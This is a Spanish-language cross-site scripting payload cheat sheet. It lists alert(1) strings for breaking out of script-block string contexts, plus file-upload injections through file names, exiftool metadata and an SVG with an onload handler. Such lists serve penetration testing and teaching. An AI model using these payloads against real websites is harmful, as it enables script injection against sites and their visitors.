 ## Script Injection

Úselo cuando la entrada aterrice en un bloque "script", dentro de un valor delimitado por cadena:

```
'-alert(1)-'

'/alert(1)//

‘-alert(1)-’

‘/alert(1)//

\'/alert(1)//

</script><svg onload=alert(1)>

></script><svg onload=alert(1)>

"></script><svg onload=alert(1)>

'}alert(1);{'

'}alert(1)%0A{'

\'}alert(1);{//

/alert(1)//\

/alert(1)}//\
```


## File Upload Injection

Úselo cuando el nombre del archivo cargado se refleje en algún lugar de la página de destino:

```
"><svg onload=alert(1)>.gif
```

Úselo cuando los metadatos del archivo cargado se reflejen en algún lugar de la página de destino. 
Utiliza 'exiftool' de línea de comandos y se puede configurar cualquier campo de metadatos:

```
exiftool -Artist='"><svg onload=alert(1)>' xss.jpeg
```

Úselo para crear un XSS almacenado en el target al cargar archivos de imagen. Guarde el contenido a continuación como "xss.svg":

```
<svg xmlns="http://www.w3.org/2000/svg" onload="alert(1)"/>
```
